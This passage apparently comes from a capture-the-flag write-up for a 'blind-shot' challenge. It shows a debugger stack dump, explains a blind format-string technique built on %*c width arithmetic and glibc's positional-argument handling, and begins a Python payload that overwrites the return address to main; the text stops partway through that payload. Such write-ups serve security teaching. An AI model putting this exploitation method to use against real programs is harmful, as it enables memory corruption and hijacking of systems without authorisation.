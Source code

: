 ```
17:00b8│      0x7fffffffea38 ◂— 0x6992e10ca41bee87
18:00c0│      0x7fffffffea40 ◂— 0x0
... ↓
1b:00d8│      0x7fffffffea58 ◂— 0x1
1c:00e0│      0x7fffffffea60 —▸ 0x7fffffffeac8 —▸ 0x7fffffffed16 ◂— '/root/blind-shot/blindshot'
1d:00e8│      0x7fffffffea68 —▸ 0x7fffffffead8 —▸ 0x7fffffffed31 ◂— 'SHELL=/bin/bash'
1e:00f0│      0x7fffffffea70 —▸ 0x7ffff7ffe190 —▸ 0x555555554000 ◂— 0x10102464c457f
1f:00f8│      0x7fffffffea78 ◂— 0x0
```

The first argument on the stack has printf-argument offset `5`, so the locations matching our criteria can be found at arguments 5, 18, 33 and 34.
They point to the arguments at location `48` (at this offset is the pointer `0x7fffffffed31` to the beginning of the environment variables block) and `46` (here, the value `0x7fffffffed16` pointing to the program name is stored).
We want to modify one of those pointers so that it points to the location of the return address to main (`rbp + 8`).
Then, we can use the pointer to overwrite that address.

Stack offsets are very variable, so we'd rather not want to hardcode the lower bytes of the return address location.
But we don't need to do that. 
The `%*c` specifier reads the width of the field from an argument, so it'll write exactly as many bytes as there are in the 32 bit argument (only works correctly for positive 32 bit values, otherwise bitwise negation of the argument is written because libc then inverts it).
If we write N bytes after that, we can effectively do addition `N + value read by %*c` with printf.
Since the output goes to `/dev/null`, we also don't need to worry about producing to much output.

There's one last complication: we want to do this using a single `printf` call.
But as soon as `printf` encounters a positional argument (like `%1$c`), it'll [switch to `printf_positional`](https://github.com/bminor/glibc/blob/cdf645427d176197b82f44308a5e131d69fb53ad/stdio-common/vfprintf-internal.c#L1557).
`printf_positional` then works in a two-pass way, first reading all argument values and then executing the corresponding actions.
This means that as soon as we use a positional argument, we can no longer overwrite the values used by later arguments.

Keeping this in mind, we can contruct the following payload to send the program into a loop:

```

STAGE0 = "".join([
    # pop 4 arguments, and then use %*c to output as many bytes as specified by the fifth argument
    f"%0c%0c%0c%0c%*c",      # next arg offset: 7
    
    # add 0xfedc to the fifth argument (-9 since each %c outputs one byte, and we have 9 %c before the write)
    f"%{0xfedc - 9}c",       # next: 8
    f"%0c" * 3,              # next: 11
    
    # the next argument is the saved RBP. Use this to store the low byte of the current value 
    f"%hhn",                 # next: 12
    
    # pop arguments until we reach argument 18
    f"%0c" * 6,              # next: 18
    
    # change the pointer at the location pointed-to by arg 18 so that it points to the return address location
    # we can use positional arguments after this, because we don't need to change any more arguments
    f"%hn",
    
    # now, we don't exactly how many bytes we have already written
    # but we want to do an exact overwrite of the low byte of the return address to main
    # we know that the address we wrote is always 8-byte aligned, so we can simply multiply by 16
```